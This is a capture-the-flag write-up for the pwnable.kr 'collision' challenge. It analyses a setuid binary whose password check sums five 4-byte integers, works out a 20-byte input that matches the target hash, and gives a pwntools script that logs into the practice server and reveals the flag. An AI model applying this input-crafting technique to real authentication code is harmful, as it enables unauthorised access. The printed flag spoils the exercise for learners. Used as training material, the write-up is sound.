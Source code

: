 # PWNABLE.KR - collision

Lets connect to our server,

```
ra@moni~> ssh col@128.61.240.205 -p 2222
col@128.61.240.205's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have new mail.
Last login: Wed Jun  2 03:52:15 2021 from 49.205.143.178
col@pwnable:~$
```

After listing the files in it, we can see

```
col@pwnable:~$ ls -la
total 36
drwxr-x---   5 root    col     4096 Oct 23  2016 .
drwxr-xr-x 115 root    root    4096 Dec 22 08:10 ..
d---------   2 root    root    4096 Jun 12  2014 .bash_history
-r-sr-x---   1 col_pwn col     7341 Jun 11  2014 col
-rw-r--r--   1 root    root     555 Jun 12  2014 col.c
-r--r-----   1 col_pwn col_pwn   52 Jun 11  2014 flag
dr-xr-xr-x   2 root    root    4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root    root    4096 Oct 23  2016 .pwntools-cache
col@pwnable:~$
```

It seems like there are some restrictions in privilege as usual,

```
col@pwnable:~$ cat flag
cat: flag: Permission denied
col@pwnable:~$
```

We cannot read our flag directly, so we have to use the binary to get it

By analyzing the file type of our binary using ```file``` command, we get

```
col@pwnable:~$ file col
col: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=05a10e253161f02d8e6553d95018bc82c7b531fe, not stripped
```

Now lets view the source code of the binary from ```col.c```

```
col@pwnable:~$ cat col.c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```
Now after analyzing the binary, we can come to a conclusion that,

- It has a global variable ```unsigned long hashcode = 0x21DD09EC;```

- It has a global function ```unsigned long check_password()```

- It gets two arguments (ie. filename,input1 )

- It compare the input length which is equal to 20 bytes or not

- If it passes these conditions, it compares the ```hashcode``` with ```check_password(input1)```

- If it is true, it displays the ```flag```

- Else it displays an error message


So the whole binary lies on this function,

```
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}
```
The value ```res``` being returned from this function should be equal to ```0x21DD09EC```

We knew the resultant value should be ```0x21DD09EC```,

The value in ```int``` is,

```
>>> print(0x21DD09EC)
568134124
```

It is being looped 5 times and added to ```res```,so

```
>>> print(0x21DD09EC/5)
113626824.8
```

The function ```check_password(const char* p)``` gets its argument in ```char```

But it typecasts itself into ```int``` array by ```int* ip = (int*)p;```

Actually we need it to pass as ```char``` in input,not ```int```

Maximum size of ```int``` is ```4 bytes```

So the ```int``` array would be split into ```4 bytes``` for each loop,thus ```( 5 loop * 4 bytes = 20 bytes )```

Now,lets guess the input

```res``` = ```0x21DD09EC``` = ```568134124```

it should be in 5 parts (a,b,c,d,e)

```
>>> print(0x21DD09EC/4)
142033531.0
>>> print(0x21DD09EC%4)
0
>>> print(0x21DD09EC/5)
113626824.8
>>> print(0x21DD09EC%5)
4
```

So it can have 4 parts of equal value, if we go for 5 it gives float which cannot be converted into ```hex``` (only ```int``` to ```hex``` possible)

Converting it into ```hex```

```
>>> hex(142033531)
'0x877427b'
```

The total value of 4 equal parts is equal to our needed ```res```

```
>>> hex(142033531*4)
'0x21dd09ec'
```

But we cannot pass `\x00` null bytes into our input, because it will get terminated and our program won't pass

So lets find the other way, by sharing values with 5 parts

```
>>> print(0x21DD09EC/5)
113626824.8
>>> print(0x21DD09EC%5)
4
>>> print(0x21DD09EC//5)
113626824
>>> print(568134124-(113626824*4))
113626828
>>> hex(113626824)
'0x6c5cec8'
>>> hex(113626828)
'0x6c5cecc'
```

So our first 4 parts have ```0x6c5cec8``` and the last part as ```0x6c5cecc```

Lets craft our string with these to pass as input,

```
ra@moni~> python3 -c 'print("\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06")'
ÈÎÅÈÎÅÈÎÅÈÎÅÌÎÅ
```

Its time for our exploit,

We will be using ```pwntools```

To install it pass ```pip install pwntools``` in yout terminal

Code for our exploit,

```
ra@moni~/P/pwnable.kr> cat col-exploit.py
from pwn import *
data=p32(0x6c5cec8)*4+p32(0x6c5cecc)
remote = ssh('col' ,'128.61.240.205' ,password='guest', port=2222)
program = remote.process(executable='./col', argv=['col',data])
flag = program.recv()
log.success("Flag: " + flag)
program.close()
remote.close()
```

Lets try our final exploit

```
ra@moni~/P/pwnable.kr> python col-exploit.py
[+] Connecting to 128.61.240.205 on port 2222: Done
[*] col@128.61.240.205:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process u'./col' on 128.61.240.205: pid 428418
[+] Flag: daddy! I just managed to create a hash collision :)
[*] Stopped remote process u'col' on 128.61.240.205 (pid 428418)
[*] Closed connection to '128.61.240.205'
```

Done! Our flag is,

```Flag: daddy! I just managed to create a hash collision :)```









